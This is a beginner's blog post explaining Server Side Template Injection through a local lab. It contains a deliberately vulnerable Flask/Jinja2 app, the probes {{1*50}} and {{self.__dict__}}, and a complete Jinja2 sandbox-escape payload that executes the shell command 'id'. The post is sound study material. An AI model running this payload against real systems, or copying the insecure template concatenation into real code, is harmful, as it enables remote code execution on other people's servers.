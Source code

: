 ```yaml
---
layout: post
title:  Server Side Template Injection (SSTI)
date: 2019-1-4 20:50:6.000000000 +08:00
---
```

Hello everybody
from this time i will write my blog use English ,maybe this blog have a lot of grammatical errors ,but i want to try it ,so let we start 

# Original
My high school must provide space to art exam , so i am in vacation now , at this time i remember last weekend,the tweet `https://twitter.com/LooseSecurity/status/1078278986487205891` 
![ssti]({{ "http://c1h2e1.oss-cn-qingdao.aliyuncs.com/image/ssti/ssti.png"|ssti}})
when i first saw the `SSTI` i just know this is an injection vulnerability . Now i have 2 days time , i think i should do something to study `SSTI` 

# What is SSTI
`SSTI` Server Side Template Injection , one of the injection attack . the `SSTI` sometime can getshell !
```php
$output=$twig->render('Dear '{first_name},array("first_name" => $user.firstname));
```
```javascript
Dear {$user.first_name}
```

sometime i can see the webpage, enter the data,the server gives us an echo,maybe it using template to show it. bug when these time i always try to find XSS vulnerability .in fact we can try `SSTI` .
 we can input payload like `{{1*50}}` input this payload  ,if the `50` in response,there is a high probability of a vulnerability. Because the template may have processed the data ,if the error in response don't give up maybe you need do closure the template, you can try `test }}{{1*50}}`
we use the `{{1*50}} ` to verify that this location uses a template.
it's too boring to say ,so let we have a try

you need to prepare `Python`and`curl`and`flask`and`jinja2`
```python
from flask import Flask, request
from jinja2 import Environment

app = Flask(__name__)
Jinja2 = Environment()

@app.route("/page")
def page():
    name = request.values.get('name')
    output = Jinja2.from_string('Hello ' + name + '!').render()
    return output

if __name__ == "__main__":
    app.run(host='127.0.0.1', port=820)
```
let we run this script 
![ssti]({{ "http://c1h2e1.oss-cn-qingdao.aliyuncs.com/image/ssti/ssti1.png"|ssti}})
use curl to send get requests 
![ssti]({{ "http://c1h2e1.oss-cn-qingdao.aliyuncs.com/image/ssti/ssti2.png"|ssti}})
try to injection
![ssti]({{ "http://c1h2e1.oss-cn-qingdao.aliyuncs.com/image/ssti/ssti3.png"|ssti}})
i send `{{config}}` but something wrong 
it response status code is `500`
what happen???
i know the config is not support ,so i have to change the i send `{{self.__dict__}}`
it is work 
![ssti]({{ "http://c1h2e1.oss-cn-qingdao.aliyuncs.com/image/ssti/ssti4.png"|ssti}})
so i continue to try execution command 
```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```
we need urlencode and send the payload to target
![ssti]({{ "http://c1h2e1.oss-cn-qingdao.aliyuncs.com/image/ssti/ssti5.png"|ssti}})


What fun!


# Using tools SSTI
`https://github.com/epinna/tplmap`
tplmap 


# END
C1h2e1 leading to world wide
i love pentest
 
# Reference 
```
https://www.youtube.com/watch?v=3cT0uE7Y87s
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20injections
https://blog.csdn.net/qq_33020901/article/details/83036927
https://portswigger.net/blog/server-side-template-injection
```







